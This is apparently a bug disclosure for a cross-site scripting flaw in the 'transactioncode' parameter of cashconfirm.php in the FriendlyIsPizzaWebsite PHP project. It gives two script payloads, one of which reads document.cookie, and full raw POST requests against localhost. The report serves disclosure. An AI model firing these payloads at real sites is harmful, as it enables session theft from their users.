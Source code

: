BUG_Author: JiaQi Yang

Vulnerability File: /FriendlyIsPizzaWebsite/cashconfirm.php

Parameter "transactioncode" (POST), exists XSS vulnerability

Payload1:transactioncode=<script>alert(111)</script>&grandtotal=2&cusid=3

```
POST /FriendlyIsPizzaWebsite/cashconfirm.php HTTP/1.1
Host: localhost
Content-Length: 78
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/FriendlyIsPizzaWebsite/cashconfirm.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

transactioncode=%3Cscript%3Ealert%28111%29%3C%2Fscript%3E&grandtotal=2&cusid=3
```

![image](https://github.com/2889436547/bug_report/blob/main/pictures/xss1.png)

Payload2:transactioncode=<script>alert(document.cookie)</script>&grandtotal=2&cusid=3

```
POST /FriendlyIsPizzaWebsite/cashconfirm.php HTTP/1.1
Host: localhost
Content-Length: 90
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/FriendlyIsPizzaWebsite/cashconfirm.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=updr4q113dildbo75ti98camsc
Connection: close

transactioncode=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&grandtotal=2&cusid=3
```

![image](https://github.com/2889436547/bug_report/blob/main/pictures/xss2.png)
